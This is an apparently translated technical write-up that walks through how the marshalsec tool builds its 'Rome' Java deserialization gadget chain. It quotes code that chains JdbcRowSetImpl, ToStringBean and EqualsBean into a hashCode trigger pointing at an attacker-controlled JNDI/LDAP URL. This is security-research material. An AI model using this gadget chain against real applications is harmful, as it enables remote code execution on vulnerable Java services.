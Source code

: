 <div align=center><img src="./images/5.png"></div>

## Rome
### Construct Analysis
 - Let's first look at the `Rome.java` given in `marshalsec`, follow up in the `JDKUtil.makeJNDIRowSet(args[ 0 ])` statement, `args[ 0 ]` is the `ldap` address passed in.
```java
public interface Rome extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makeRome ( UtilFactory uf, String[] args ) throws Exception {
        return makeROMEAllPropertyTrigger(uf, JdbcRowSetImpl.class, JD
KUtil.makeJNDIRowSet(args[ 0 ]));
    }
    ...
}
```

 - In `makeJNDIRowSet`, first create the `JdbcRowSetImpl` instance, then call the `setDataSourceName` method to assign the `dataSource` of the instance to the input `jndiUrl` variable, then call the `setMatchColumn` method, set the `strMatchColumn` member variable of the `JdbcRowSetImpl` instance to `foo`, and finally set the `listeners` variable of the `JdbcRowSetImpl` instance to `null`.

```java
public static JdbcRowSetImpl makeJNDIRowSet ( String jndiUrl ) throws Exception {
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(jndiUrl);
    rs.setMatchColumn("foo");
    Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
    return rs;
}
```

 - Then follow up on the `Rome#makeROMEAllPropertyTrigger` method in `marshalsec`, instantiate the `ToStringBean` object, pass the `JdbcRowSetImpl.class` and `JdbcRowSetImpl` instances into the constructor, then instantiate the `EqualsBean` object and pass the `ToStringBean.class` and `ToStringBean` instantiate it, and get the instantiated object named `root`. Then call `uf.makeHashCodeTrigger(root)`.

```java
default <T> Object makeROMEAllPropertyTrigger ( UtilFactory uf, Class<T> type, T obj ) throws Exception {
    ToStringBean item = new ToStringBean(type, obj);
    EqualsBean root = new EqualsBean(ToStringBean.class, item);
    return uf.makeHashCodeTrigger(root);
}
```
